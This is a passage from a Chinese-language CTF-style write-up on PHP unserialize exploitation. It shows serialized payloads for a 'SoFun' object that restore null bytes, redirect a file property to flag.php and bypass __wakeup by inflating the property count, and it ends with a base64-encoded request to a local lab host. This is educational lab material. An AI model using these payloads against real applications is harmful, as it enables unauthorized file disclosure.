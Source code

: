 我们需要将file的%00补上

`O:5:"SoFun":1:{s:7:"%00*%00file";s:9:"index.php";}`

修改flag.php

`O:5:"SoFun":1:{s:7:"%00*%00file";s:8:"flag.php";}`

绕过`wakeup`

`O:5:"SoFun":2:{s:7:"%00*%00file";s:8:"flag.php";}`

然后需要urldecode一下，将%00转为空字节，最后base64之后就是payload了

`http://php.local/index.php?file=Tzo1OiJTb0Z1biI6Mjp7czo3OiIAKgBmaWxlIjtzOjg6ImZsYWcucGhwIjt9`

## 参考链接

- [反序列化审计](https://github.com/aleenzz/php_bug_wiki/blob/master/1.9.反序列化审计.md)
- https://xz.aliyun.com/t/3674
- [深度剖析PHP序列化和反序列化](https://www.cnblogs.com/youyoui/p/8610068.html)
- https://www.freebuf.com/news/172507.html

**文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。**